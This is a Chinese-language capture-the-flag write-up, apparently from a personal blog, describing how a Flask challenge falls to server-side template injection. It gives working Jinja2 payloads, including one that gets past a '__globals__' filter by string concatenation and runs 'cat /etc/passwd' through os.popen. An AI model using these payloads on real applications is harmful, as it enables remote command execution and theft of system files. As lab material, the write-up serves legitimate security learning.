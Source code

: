 主页面如下：

![image-20250913100218037](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250913100218037.png)

html中有注释如下：

```html
| <!-- Parameter Name: search --> |
| <!-- Method: GET -->            |
```

因为是flask，我们先试试有没有SSTI漏洞，构造payload如下：

`?search={{7*7}}`

![image-20250913100514431](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250913100514431.png)

利用`{{config}}`查看配置信息，其中有信息如下：

`'SECRET_KEY': 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_this_dir}'`

我们可以确定目标了。使用payload`{{().__class__.__bases__[0].__subclasses__()}}`查看所有子类，将所有显示的内容保存下来，并整理成一行一行的形式，方便我们找目标，python整理可以如下：

```python
# 读取文件内容
with open('tmp', 'r', encoding='utf-8') as file:
    content = file.read()

# 按逗号分割，每个元素单独一行
split_content = content.split(',')

# 写回文件，每个元素一行
with open('tmp', 'w', encoding='utf-8') as file:
    for item in split_content:
        file.write(item.strip() + '\n')  # 去除空格并换行
```

我们找warnings.catch_warnings，发现是60行，因为`__subclasses()__`是从0开始，所以

`{{().__class__.__bases__[0].__subclasses__()[59]}}`即为目标

![image-20250913102320029](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250913102320029.png)

发现`__globals__`是被过滤了，我们直接拼接法，最后payload如下

```
?search={{().__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__'].__builtins__['__import__']('os').popen('cat /etc/passwd').read()}}
```

最后找了一下flag是在`/flasklight/coomme_geeeett_youur_flek`中，和上面config读取的信息没啥关系